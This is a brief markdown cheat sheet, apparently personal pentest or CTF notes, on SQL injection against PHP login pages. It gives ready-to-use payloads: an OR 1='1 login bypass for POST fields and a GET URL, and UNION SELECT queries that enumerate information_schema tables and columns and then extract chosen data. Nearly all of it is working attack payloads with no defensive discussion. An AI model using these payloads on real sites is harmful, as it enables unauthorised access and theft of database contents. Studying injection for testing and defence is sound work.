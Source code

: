 ## SQL Injection for a .php

### Unsanitized Fields POST SQL Injection Method
	Enter ' into the fields to see if an error appears, if there is an error it is possible to
	use a 
		username=tom' OR 1='1
		passwd=tom' OR 1='1
	in the fields to get into the page

### Login Scripts GET Request Method
	To get a table or some sort of information 
		http://<ip>/<abc>.php?
				- Login		username=tom' OR 1='1 & passwd=tom' OR 1='1
				- Table		UNION SELECT table_name,2,column_name FROM information_schema.columns
				- Specific 	UNION SELECT columnA,columnB,columnC FROM table